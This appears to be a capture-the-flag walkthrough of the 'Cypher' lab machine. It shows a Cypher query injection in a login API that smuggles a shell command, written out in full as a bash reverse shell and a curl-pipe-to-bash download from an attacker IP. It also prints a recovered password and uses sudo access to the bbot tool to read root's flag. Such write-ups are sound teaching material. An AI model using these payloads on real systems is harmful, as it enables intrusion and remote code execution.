

Let's scan the IP address `10.10.11.57`
```bash
sudo nmap -v -sC -sV 10.10.11.57 -oN nmap/initial
```

Let's go to the website

Let's scan the hidden directories of the website
```bash
ffuf -u http://cypher.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

If we go to `cypher.htb/testing`, we will see a `.jar` file:

Download and unpack it
```bash
jar xf custom-apoc-extension-1.0-SNAPSHOT.jar
```

We can see that `Neo4j v5.23.0` is running on the site.

>[!info] Note
>**Neo4j** is an open source graph database management system implemented in Java.

If we go to `cypher.htb/api`, we will see the following:

Let's scan the hidden directories `cypher.htb/api/`:
```bash
ffuf -u http://cypher.htb/api/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

If we go to the address `cypher.htb/api/auth`, we will see the following:

This method is not accepted. Let's intercept the request in Burp Suite and send it to `Repeater`

A `GET` request is sent. Let's change it to `POST`

<div style="page-break-after: always;"></div>
The code for the `cypher.htb/login` page contained the following:
```JavaScript
// TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
      var password = $("#passwordfield").val();
      $.ajax({
        url: '/api/auth',
        type: 'POST',
        contentType: 'application/json',
        data: JSON.stringify({ username: username, password: password }),
        success: function (r) {
          window.location.replace("/demo");
        },
        error: function (r) {
          if (r.status == 401) {
            notify("Access denied");
          } else {
            notify(r.responseText);
          }
        }
      });
    }

    $("form").keypress(function (e) {
      if (e.keyCode == 13) {
        doLogin(e);
      }
    })

    $("#loginsubmit").click(doLogin);
```
Change `Content-Type` to `application/json` and add authentication parameters
```Request
{
  “username”: “admin”,
  “password”: “password”
}
```

We can see that this is the correct request, but the data is incorrect. Let's try applying an SQL injection

The `Python` file error was displayed
The following was found in the error:

It is clear that this is `Neo4j`, which executes `Cypher` queries, and that the SQL injection did not work in the SQL query.
Commenting in `Neo4j` works not through `--`, but through `//`. Let's try to throw a `reverse shell` through authorization in `API`. 
First, let's create a `Reverse Shell` and start the HTTP server
```bash
echo “/bin/bash -i >& /dev/tcp/10.10.14.180/4444 0>&1” > shell.sh
```
```bash
sudo python3 -m http.server 80
```
Next, insert the following code into `username`:
```bash
test' return h.value as a UNION CALL custom.getUrlStatusCode(\“cypher.com; curl 10.10.14.180/shell.sh|bash;#\”) YIELD statusCode AS a RETURN a;//
```
1. Closing the original query
- `test'` — closes the quotation marks in the original query:
```cypher
  MATCH (u:USER)-[:SECRET]->(h:SHA1) 
  WHERE u.name = ‘test’  <-- Closed here
  ```
2. Substituting the returned data:
- `return h.value as a` — returns the value `h.value` under the alias `a` to match the UNION structure.
3. UNION attack:
- `UNION` — combines the result of the original query with the result of a new subquery. 
  **Purpose:** To add arbitrary code to the original query.
4. Calling a dangerous function:
- `CALL custom.getUrlStatusCode(...)` — calls the custom function `getUrlStatusCode`, which probably performs HTTP requests.  
  **Vulnerability:** The function does not sanitize input data, allowing commands to be injected via `;`.
5. Injecting commands into the URL:
- `“cypher.com; curl 10.10.14.180/shell.sh|bash;#”`  
  **Breakdown:**
- `cypher.com` — legitimate part of the URL (to bypass possible checks).
  - `;` — command separator in shell.
  - `curl 10.10.14.180/shell.sh | bash` — downloads the `shell.sh` script from your server and executes it via `bash`.
  - `#` — comments out the rest of the URL (to avoid syntax errors).
6. Completing the query:
- `YIELD statusCode AS a RETURN a;//`
- `YIELD` and `RETURN` — correctly complete the Cypher query.
- `;//` — closes the query and comments out the rest of the original code.

There is a user `graphasm`. Let's see what he has in his home directory

```Password
cU4btyib.20xtCMCXkBmerhK
```
This password does not work for the user `neo4j`. Perhaps it will work for the user `graphasm`.

Let's check what commands it can execute with sudo

We can call the `BBOT` tool and execute commands associated with it. Let's see what flags it has:
```bash
graphasm@cypher:~$ /usr/local/bin/bbot -h
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Creating BBOT config at /home/graphasm/.config/bbot/bbot.yml
[INFO] Creating BBOT secrets at /home/graphasm/.config/bbot/secrets.yml
usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]] [--strict-scope] [-p [PRESET ...]] [-c [CONFIG ...]] [-lp]
            [-m MODULE [MODULE ...]] [-l] [-lmo] [-em MODULE [MODULE ...]] [-f FLAG [FLAG ...]] [-lf] [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly]
            [-n SCAN_NAME] [-v] [-d] [-s] [--force] [-y] [--dry-run] [--current-preset] [--current-preset-full] [-o DIR] [-om MODULE [MODULE ...]] [--json] [--brief]
            [--event-types EVENT_TYPES [EVENT_TYPES ...]] [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps] [--version]
            [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]] [--custom-yara-rules CUSTOM_YARA_RULES]

Bighuge BLS OSINT Tool

options:
  -h, --help            show this help message and exit

Target:
  -t TARGET [TARGET ...], --targets TARGET [TARGET ...]
                        Targets to seed the scan
...
...
...
EXAMPLES

    Subdomains:
        bbot -t evilcorp.com -p subdomain-enum

    Subdomains (passive only):
        bbot -t evilcorp.com -p subdomain-enum -rf passive

    Subdomains + port scan + web screenshots:
        bbot -t evilcorp.com -p subdomain-enum -m portscan gowitness -n my_scan -o .

    Subdomains + basic web scan:
        bbot -t evilcorp.com -p subdomain-enum web-basic

    Web spider:
        bbot -t www.evilcorp.com -p spider -c web.spider_distance=2 web.spider_depth=2

    Everything everywhere all at once:
        bbot -t evilcorp.com -p kitchen-sink
```
There is a `-t` flag, to which we give a target for scanning. Let's try giving it the target `/root/root.txt`
```bash
sudo /usr/local/bin/bbot -t /root/root.txt
```

`BBOT` interpreted `/root/root.txt` as a file with targets. `BBOT` tried to read this file as a list of targets to scan (e.g., domains, IP addresses), but instead it got the contents of the `root.txt` file, which most likely looks like a hash (or a random string): `25bb48f1ea0967eed85814a347932f86`
It attempted to process this string as a DNS name `[DNS_NAME_UNRESOLVED] 25bb48f1ea0967eed85814a347932f86 TARGET`. Since the string is not a valid domain, BBOT marked it as unresolved but logged it.
